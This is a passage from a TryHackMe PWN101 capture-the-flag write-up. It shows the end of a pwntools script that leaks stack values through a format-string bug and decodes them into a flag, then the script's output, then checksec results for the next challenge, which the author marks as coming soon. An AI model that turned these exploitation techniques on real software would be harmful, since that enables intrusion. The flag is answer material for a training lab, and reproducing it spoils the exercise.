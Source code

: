 ```py
                flag+=reversed_hex.decode()
            except BaseException:
                pass
        io.close()
    except EOFError:
        io.close()

info(flag)

```

```bash
python3 get_flag.py
6:b'0x5f5530797b4d4854\n'
b'THM{y0U_'
7:b'0x5f3368745f6e3077\n'
b'w0n_th3_'
8:b'0x5961774133766947\n'
b'Giv3AwaY'
9:b'0x3168745f446e615f\n'
b'_anD_th1'
10:b'0x756f595f73315f73\n'
b's_1s_You'
11:b'0x7d47346c665f52\n'
b'R_fl4G}'
[*] THM{fake_flag}   # get you own flag


```

## Challenge 7 - pwn107

The challenge is running on port 9007
```bash
# Basic file checks
file pwn107.pwn107         
pwn107.pwn107: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0579b2a29d47165653fbb791fb528c59e951a1a0, not stripped

checksec pwn107.pwn107         
[*] '/home/kali/TryHackMe/PWN101/chall7/pwn107.pwn107'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled


```

Comming soon...
